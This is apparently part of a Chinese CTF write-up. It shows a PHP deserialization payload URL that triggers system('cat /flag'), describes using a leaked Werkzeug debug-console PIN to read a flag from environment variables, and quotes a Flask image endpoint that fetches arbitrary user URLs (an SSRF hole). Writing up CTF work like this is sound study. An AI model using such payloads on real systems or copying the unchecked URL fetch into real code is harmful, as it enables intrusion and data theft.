 ```
http://127.0.0.1:63135/?data=O:1:"A":2:{s:7:"%00A%00evil";s:9:"cat /flag";s:4:"%00A%00a";O:1:"B":1:{s:4:"%00B%00b";s:6:"system";}}
```

### 垫刀之路07: 泄漏的密码

页面给了pin码，进入/console路由，输入pin码进入终端。

![](./images/image-24.png)

环境变量中拿到flag

### ImageCloud

题目信息给出，flag在名为flag.jpg的图片中，并且附件中flag.jpg存在于uploads文件夹。

附件中存在两个flask服务的python文件，一个是5000端口的外部云文件，保存图片路径为static，另一个是端口在5001到6000中间随机的内部云文件，保存路径是uploads。

```
#外部云
@app.route('/image', methods=['GET'])
def load_image():
    url = request.args.get('url')
    if not url:
        return 'URL 参数缺失', 400

    try:
        response = requests.get(url)
        response.raise_for_status()
        img = Image.open(BytesIO(response.content))

        img_io = BytesIO()
        img.save(img_io, img.format)
        img_io.seek(0)
        return send_file(img_io, mimetype=img.get_format_mimetype())
    except Exception as e:
        return f"无法加载图片: {str(e)}", 400
```
